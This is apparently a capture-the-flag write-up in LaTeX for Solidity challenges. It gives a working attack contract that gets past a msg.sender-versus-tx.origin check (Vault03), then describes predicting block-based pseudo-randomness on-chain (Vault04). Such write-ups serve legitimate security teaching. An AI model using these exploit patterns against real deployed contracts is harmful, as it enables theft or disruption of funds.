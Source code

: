 \documentclass[12pt]{article}
\begin{document}
\subsection*{Vault03: Origins}

To breach \texttt{Vault03}, you need to bypass the requirement that \texttt{msg.sender} must not be equal to \texttt{tx.origin}. This means the function must be called from a smart contract rather than directly from an externally owned account (EOA).

Deploy the \texttt{Vault03Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which in turn calls \texttt{breachVault()}. Since the attack contract acts as an intermediary, \texttt{msg.sender} will be the attack contract, while \texttt{tx.origin} remains the player's address, satisfying the vault's condition. 

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
// SPDX-License-Identifier: MIT
pragma solidity 0.8.28;

interface IVault03 {
    function breachVault() external returns (bool);
}

contract Vault03Attack {
    IVault03 public vault;

    constructor(address _vaultAddress) {
        vault = IVault03(_vaultAddress);
    }

    function attack() external returns (bool) {
        return vault.breachVault(); // msg.sender != tx.origin
    }
}
\end{lstlisting}
\end{minipage}

\noindent
This successfully updates \texttt{lastSolver} to the player's address, completing the challenge.

\subsection*{Vault04: Pseudo-Random Trap}

To breach \texttt{Vault04}, you need to provide a correct guess computed using \texttt{block.timestamp} and \texttt{blockhash(block.number - 1)}. Since both values are accessible during the same transaction, you can compute the correct guess on-chain and submit it immediately. Deploy the \texttt{Vault04Attack} contract, passing the vault's address as a parameter. Then, call the \texttt{attack} function from the attack contract, which computes the guess and calls \texttt{breachVault()} with the correct value.
\end{document}
